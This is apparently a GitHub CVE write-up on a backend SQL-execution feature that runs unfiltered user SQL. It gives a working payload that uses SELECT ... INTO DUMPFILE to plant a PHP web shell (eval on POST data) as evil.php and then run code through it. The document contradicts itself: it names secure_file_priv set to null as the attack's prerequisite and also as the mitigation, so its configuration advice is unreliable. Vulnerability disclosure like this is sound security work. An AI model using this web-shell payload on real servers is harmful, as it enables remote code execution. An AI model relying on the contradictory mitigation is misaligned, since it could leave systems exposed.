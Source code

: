 # CVE
## Vulnerability: SQL Statement Execution File Upload Remote Code Execution (RCE)

Accessing the backend:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3d1f8193-9eb2-49af-b6a6-1dacc4c5ee64)

Execute the following SQL statement:

select '<?php eval($_POST[1]);?>' into dumpfile '/Users/zhaozhouqiao/site/evil.php';

You can see that the file has been successfully written.

![image](https://github.com/Teresazdy/CVE/assets/72858713/fe2de9d7-208a-4b6f-bce2-92a9c0a301dc)

Subsequently, access evil.php to execute the code:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3be1ce72-87a2-466f-aa03-14eaffe77cdd)

Note: The prerequisite is that the MySQL variable secure_file_priv must be set to null.

## Code Analysis:
Firstly, in the following code snippet, the content of the POST request is directly passed to the DoExecSql function without any filtering.

![image](https://github.com/Teresazdy/CVE/assets/72858713/88f38910-b703-4ed7-b072-92997893136b)

The code below passes the content of the query variable to DoRunQuery for execution:

![image](https://github.com/Teresazdy/CVE/assets/72858713/1f9c3215-3a7b-4dd1-952c-854d1f973f45)

The execution process lacks any filtering, directly executing the SQL statements provided by the user:

![image](https://github.com/Teresazdy/CVE/assets/72858713/e27ce18f-d942-4d3c-aa82-da5bc9c88ee9)

Therefore, it is possible to achieve arbitrary file upload using statements like select into outfile.

## Mitigation Measures:
Set secure_file_priv for the MySQL database to null to prevent file uploads.






